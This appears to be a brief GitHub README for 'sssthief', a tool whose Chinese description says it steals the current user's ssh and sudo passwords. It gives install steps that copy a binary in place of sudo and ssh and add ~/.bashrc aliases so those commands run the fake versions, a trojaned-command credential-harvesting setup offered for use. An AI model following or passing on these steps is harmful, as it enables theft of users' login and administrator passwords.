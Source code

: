 # sssthief
窃取当前用户的ssh，sudo密码

cp test_linux_amd64 sudo 
cp test_linux_amd64 ssh

~/.bashrc
alias sudo="程序路径/sudo"
alias ssh="程序路径/ssh"
